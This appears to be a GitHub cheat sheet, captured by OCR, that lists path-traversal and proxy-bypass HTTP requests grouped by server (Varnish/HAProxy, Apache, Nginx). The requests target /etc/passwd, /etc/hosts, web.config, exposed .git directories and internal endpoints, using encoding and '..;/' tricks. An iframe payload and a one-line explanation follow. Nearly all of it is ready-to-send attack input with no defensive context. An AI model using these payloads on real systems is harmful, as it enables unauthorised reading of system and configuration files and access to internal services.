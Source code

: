 # proxiesVulns bypass

Varnish or HaProxy

1. GET http://company.com/Endpoints-To-Proxy/.git HTTP/1.1
2. GeT /Endpoint-To-Proxy/../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1

Apache

1. GET /Endpoint-To-Proxy/.git%3FAllowed HTTP/1.1
2. GET /Endpoint-To-Proxy/../../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/../../../../../../etc//./passwd HTTP/1.1
4. GET /Endpoint-To-Proxy/..//../../../../../../etc/passwd HTTP/1.1
5. GET /Endpoint-To-Proxy/..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd HTTP/1.1
6. GET /Endpoint-To-Proxy\..\.\..\.\..\.\..\.\Internal-Endpoint%3F.js HTTP/1.1
7. GET /Endpoint-To-Proxy\..\.\..\.\..\.\..\.\Internal-Endpoint HTTP/1.1
8. GET /Endpoint-To-Proxy/file:%2f%2f/Internal-Endpoint/%252e%252e/%252e%252e/%252e%252e/etc/passwd HTTP/1.1
9. GET /Endpoint-To-Proxy/%255c%255c%255c%255c%255c%255c..%255c..%255c..%255c..%255c..%255c..%255c/Internal-Endpoint HTTP/1.1
10. GET /Endpoint-To-Proxy/dana-na/../dana/html5acc/guacamole/../../../../../../etc/hosts?/dana/html5acc/guacamole/# HTTP/1.1
11. GET /Endpoint-To-Proxy//..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/System32/drivers/etc/hosts HTTP/1.1


Nginx

1. GET /..;/..;/..;/..;/web.config HTTP/1.1
2. GET /Endpoint-To-Proxy/..;/../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/../../../../../../../etc/passwd//../ HTTP/1.1
4. GET /Endpoint-To-Proxy/#/../../../../../../../../../../etc/passwd HTTP/1.1
5. GET /Endpoint-To-Proxy../../../../../../../etc/passwd HTTP/1.1
6. GET /../../../../etc/passwd/..;/Endpoint-To-Proxy HTTP/1.1
7. GET /../../../../../../../etc/passwd;/../Endpoint-To-Proxy HTTP/1.1
8. GET /Endpoint-To-Proxy;/../../../../etc/passwd HTTP/1.1
9. GET /Endpoint-To-Proxy/../../../../etc/passwd%2f%2f%2f HTTP/1.1

<iframe src="https://www.company.com/Endpoint-To-Proxy/..;/Endpoint-To-Iframe">

By including "..;/", it may be possible to trick the server into thinking that the request is for a different endpoint than the one that is actually being requested

Nginx vs HAProxy (https://klink0v.livejournal.com/692218.html)
